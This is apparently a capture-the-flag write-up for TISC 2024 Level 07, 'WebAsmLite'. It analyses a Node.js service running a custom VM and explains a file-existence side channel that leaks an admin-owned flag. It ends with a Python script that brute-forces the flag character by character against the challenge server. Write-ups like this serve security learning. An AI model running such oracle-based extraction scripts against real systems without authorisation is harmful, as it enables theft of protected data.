

# Level 07 - WebAsmLite



## Setting up Local Environment

After downloading the attached file, it appears to be a simple Node.js application. The first step is to set up the project locally, which will allow us to easily debug and explore the application.

```sh
cd webasmvm
npm init -y
npm i express
npm i express-session
export HTTP_PORT=3000
export SESSION_SECRET=secret
export TISC_FLAG=TISC{FAKE_FLAG}
node server.js
```

## Analysis

This Node.js application uses the Express framework and sets up two routes (`/submitdevjob` and `/requestadmin`) that allow users to submit programs for execution in a custom virtual machine called `SMOLVM`, which supports a small set of instructions. Each instance of `SMOLVM` has its own isolated registers, memory, and file system, called `SMOLFS`.

Each file in `SMOLFS` is referred to as a `SMOLFILE`, containing metadata such as the file owner, privilege level, and the file's content. Users can create, read, and destroy `SMOLFILE`s. An interesting behavior to note is that when a `SMOLVM` attempts to read a file that either does not exist or if the user lacks sufficient permissions, the first register in the `SMOLVM` is set to `-1`.

In this application, there are two users:

- `publicuser`, with a privilege level of `1`
- `adminuser`, with a privilege level of `42`

Below is the HTTP POST handler for the `/requestadmin` endpoint:

```javascript
app.post("/requestadmin", (req, res) => {
  const { prgmstr } = req.body;

  const fs = new SMOLFS();
  fs.createFile(
    adminuser,
    "flag.txt",
    new TextEncoder().encode(process.env.TISC_FLAG)
  );

  const adminVM = new SMOLVM(fs);
  adminVM.execute(adminuser, prgmstr);
  const userVM = new SMOLVM(fs);
  const userResult = userVM.execute(publicuser, prgmstr);
  const output = {
    timestamp: new Date().toISOString(),
    adminResult: "REDACTED",
    userResult: userResult,
  };
  res.json(output);
});
```

When a request is made to the `/requestadmin` endpoint, the application creates a `SMOLFS` instance, which acts as a "shared file system." In this shared file system, the endpoint creates a file containing the flag, with the `adminuser` as the owner. Afterward, the `adminuser` executes the program of our choice, followed by the same program being executed by the `publicuser`. However, only the state (containing PC, registers and memory) of the `publicuser`'s `SMOLVM` is returned. Given that the `publicuser` does not have access to the flag file created by the `adminuser`, I believe we have to find a way to exfiltrate the flag into the user's result, bypassing the lack of direct access to the flag.

After much experimentation, I came up with a solution similar to the technique used in Blind SQL Injection. We can attempt to exfiltrate the flag one character at a time and extend this process to extract the entire flag.

The idea is to first get the `adminuser` to read the flag file, which will be loaded into the `SMOLVM` memory. We can then check if the flag starts with a specific character by iterating through all ASCII printable characters and comparing each one to the corresponding character in the `adminuser`'s memory. To perform the comparison, we load both characters (the guessed character and the actual flag character) into registers and use the `SUB` instruction to subtract them. Then, the `JZ` instruction is used to determine if the result is zero (i.e., the characters match). If the characters do not match, the `adminuser` will create a file (e.g. `lock.txt`) to indicate that the flag character was not found (i.e., the subtraction result is not zero). If the characters do match, the `adminuser` will not create a file. After this, the `adminuser` will attempt to read the `lock.txt` file.

Next, the `publicuser` will attempt to read the flag (but since it does not have the necessary permissions) then it will perform the same arithmetic operations on the registers. However, since the characters will never match, the `publicuser` will always create the `lock.txt` file and read it.

The key detail here is that if the `adminuser` does not find the flag character, the `lock.txt` file is created. When it's the `publicuser`'s turn to create the file, it cannot, because the file already exists. As a result, when the `publicuser` tries to read the file, it will result in `-1` being placed in the first register of the `publicuser`'s `SMOLVM`. On the other hand, if the `adminuser` does find the flag character and does not create the `lock.txt` file, the `publicuser` will be able to create the file successfully and read it without any errors. Therefore, we can determine if a guessed character is correct by checking the value of the first register of the `publicuser`'s `SMOLVM`.

Therefore, our WebASMLite script should look something like this:

```
prgmstr=NOP;
READ:flag.txt;
IMM:0:0;
IMM:7:XXX;
LOAD:6:7;
IMM:5:YYY;
SUB:4:5:6;
JZ:4:2;
WRITE:lock.txt;
READ:lock.txt;
HALT;
```

- `XXX` represents the index of the flag being exfiltrated
- `YYY` represents the ASCII decimal value of the guessed flag character

## Solution

Here is the solve script:

```python
import requests
import string

flag = ""

for i in range(32, 64):
    for j in string.printable:
        payload = f"""prgmstr=NOP;
READ:flag.txt;
IMM:0:0;
IMM:7:{i};
LOAD:6:7;
IMM:5:{ord(j)};
SUB:4:5:6;
JZ:4:2;
WRITE:lock.txt;
READ:lock.txt;
HALT;
"""
        res = requests.post("http://chals.tisc24.ctf.sg:50128/requestadmin", headers={"Content-Type": "application/x-www-form-urlencoded"}, data=payload)
        result = res.json()
        if result["userResult"]["vm_state"]["reg"].split(",")[0] == "0":
            flag += j
            print(j, end="", flush=True)
            if j == "}":
                exit()
            break
```

Flag: `TISC{le4ky_l3aky_1f8e3ba511ee!}`
